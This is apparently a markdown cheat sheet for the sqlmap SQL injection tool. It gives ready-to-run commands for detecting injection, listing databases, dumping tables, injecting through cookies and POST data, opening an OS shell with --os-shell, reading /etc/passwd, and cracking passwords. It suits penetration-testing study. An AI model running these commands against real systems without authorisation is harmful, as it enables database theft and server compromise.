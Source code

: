 
---

Run it with:
```
python3 sqlmap.py -h
```

Or use `sqlmap` directly if it's already in your path.

---

## Basic Usage

```bash
sqlmap -u "http://target.com/page.php?id=1" --batch
```

|Flag|Purpose|
|---|---|
|`-u`|Target URL|
|`--batch`|Non-interactive (auto-confirm prompts)|

---

## Key Options

### Detect SQLi and Database Info

```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

### List Tables

```bash
sqlmap -u "http://target.com/page.php?id=1" -D <database> --tables
```

### Dump Table Data

```bash
sqlmap -u "http://target.com/page.php?id=1" -D <database> -T <table> --dump
```

### Find Columns

```bash
sqlmap -u "http://target.com/page.php?id=1" -D <database> -T <table> --columns
```

---

## Authentication & Cookies

If login is required:

```bash
sqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=xyz" --dbs
```

Or using HTTP authentication:

```bash
sqlmap -u "http://target.com/page.php?id=1" --auth-type=Basic --auth-cred="user:pass"
```

---

## POST Data Injection

```bash
sqlmap -u "http://target.com/login.php" --data="username=admin&password=pass" --dump
```

---

## Advanced Features

|Feature|Command Example|
|---|---|
|Test all parameters|`--forms` or `-p ALL`|
|OS command execution|`--os-shell`|
|File read/write|`--file-read=/etc/passwd` / `--file-write`|
|Password cracking|`--passwords`|
|Custom user-agent|`--user-agent="Mozilla/5.0"`|

---

## Tips for Success

- Always test with `--batch` in automation to skip prompts.
- Combine with tools like **Burp Suite** to grab complex requests.
- Use `-v 3` or higher to increase verbosity for debugging.

---
## 📋 Example: Full Command

```bash
sqlmap -u "http://10.10.1.10/item.php?id=2" --cookie="admin=true" --risk=3 --level=5 --dump
```

---
## Summary

| SQLmap Strengths    | Description                             |
| ------------------- | --------------------------------------- |
| Fully automated     | Detects and exploits SQLi automatically |
| Versatile           | Supports GET, POST, headers, cookies    |
| Deep extraction     | Dumps DBs, executes OS commands         |
| Actively maintained | Updated regularly with new features     |
